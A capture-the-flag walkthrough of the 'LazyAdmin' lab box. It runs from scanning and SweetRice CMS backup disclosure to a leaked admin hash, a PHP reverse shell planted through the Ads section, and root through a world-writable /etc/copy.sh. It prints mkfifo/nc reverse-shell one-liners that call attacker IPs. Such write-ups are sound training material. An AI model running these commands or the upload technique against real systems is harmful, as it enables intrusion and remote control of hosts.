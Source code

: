 # LazyAdmin

> RedAiden

## Enumeration

### Nmap
Let's start with a quick Nmap scan.

`nmap -sC -sV 10.10.x.x`

```
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:57:B0:67:B7:D3 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We can see that it has port 80 open, and if we acces it we get a default Apache page.

### gobuster 
Start a quick gobuster scan to search for hidden directories.

`gobuster dir -u http://10.10.213.143:80 -w /usr/share/wordlists/dirb/big.txt`

```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/content (Status: 301)
/server-status (Status: 403)
```
If we enter the `/content` we can see a hyperlink that takes us to a website management system called SweetRice.

## searchsploit
Search for any vulnerabilities regarding SweetRice

`searchsploit sweetrice`

```
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                           |  Path
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
SweetRice 0.5.3 - Remote File Inclusion                                                                                  | php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulnerabilities                                                                               | php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File Download                                                                                | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                                                                                  | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                                                                                      | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                                                                             | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                                                        | php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload                                                                    | php/webapps/14184.txt
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
We can see numerous exploits, but two of them catch my eye:
- Arbitrary File Upload (To upload malicious code)
- PHP Code Execution (Execute a reverse shell)
- Backup Disclosure (Get some admin information)

### Poking around

1. After reading the exploits, we can try to use 40718 to get some information from the backups. If we read the document `cat /usr/share/exploitdb/exploits/php/webapps/40718.txt` we can see that we can access a mysql backup in `/inc/mysql_backup`. So our URL would look like this `http://10.10.x.x:80/content/inc/mysql_backup`
2. Acces the new found page and download the mysql backup file.
3. After reading the file we can find some useful information:
```php
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{
    s:4:\\"name\\";
    s:25:\\"Lazy Admin&#039;
    s Website\\";
    s:6:\\"author\\";
    s:10:\\"Lazy Admin\\";
    s:5:\\"title\\";
    s:0:\\"\\";
    s:8:\\"keywords\\";
    s:8:\\"Keywords\\";
    s:11:\\"description\\";
    s:11:\\"Description\\";
    s:5:\\"admin\\"
    ;s:7:\\"manager\\";
    s:6:\\"passwd\\";
    s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";
    s:5:\\"close\\";
    i:1;s:9:\\"close_tip\\";
    s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";
    s:5:\\"cache\\";
    i:0;
    s:13:\\"cache_expired\\";
    i:0;
    s:10:\\"user_track\\";
    i:0;
    s:11:\\"url_rewrite\\";
    i:0;
    s:4:\\"logo\\";
    s:0:\\"\\";
    s:5:\\"theme\\";
    s:0:\\"\\";
    s:4:\\"lang\\";
    s:9:\\"en-us.php\\";
    s:11:\\"admin_email\\";
    N;}\',\'1575023409\');'
```
- Admin username: `manager`
- Password: `42f749ade7f9e195bf475f37a44cafcb`
4. The password looks like a hash, so we are going to use crackstation to crack it.
    - Unhashed: `Password123`

Since the site is "building", we need to find a place where we can login. We can do another gobuster scan with the extended URL.

`gobuster dir -u http://10.10.x.x:80/content/ -w /usr/share/wordlists/dirb/big.txt`

```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/_themes (Status: 301)
/as (Status: 301)
/attachment (Status: 301)
/images (Status: 301)
/inc (Status: 301)
/js (Status: 301)
```
If we enter the `/as` directory, we get a login form. We can login using our found credentials.

## Exploitation

We can now use the Arbitrary File Upload exploit to upload our malicious PHP.

1. On the menu to the right, navigate to the Ads section. 
2. In here we can create an ad that runs code. I named mine `hacked`
3. In the __Ads code__ section paste a reverse shell script. [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) has a very good one.
   - Make sure to modify the IP and the port 
4. Click the Done button to add your Ad.
5. Start a Netcat listener on your machine with the port you used on the script `nc -lvnp 4444`
6. Navigate to `http://10.10.x.x:80/inc/`
7. Click on the `ads/` folder
8. Click on your script. You should get a reverse shell back.

## Privilege Escalation

First we can check for our sudo privileges with `sudo -l`. We get the following output:
```
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
We can see that we are allowd to run a perl script called `backup.pl`. If we read it we get the following:\
`cat /home/itguy/backup.pl`
```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
Another script is run by this script. Let's read that one as well:\
`cat /etc/copy.sh`
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```
This for some reason has a reverse shell. We can check the file permissions:\
`ls -la /etc/copy.sh`
```
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

Before we continue with the Privilege Escalation, we can look for the first user flag. From the first sudo command we noticed the user called `itguy`. If we change into its directory `cd /home/itguy/` we can find the flag.

From the file permissions we know that we can overwrite this and change the IP and PORT to create another reverse shell with sudo privileges.\
`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.79.128 5554 >/tmp/f' > /etc/copy.sh`\

Let's start another netcat listener on 5554. Then run the script with sudo privileges:\
`sudo /usr/bin/perl /home/itguy/backup.pl`\

On your netcat listener you should now have a shell with root privileges. Change into the root folder `cd /root` to find your flag.
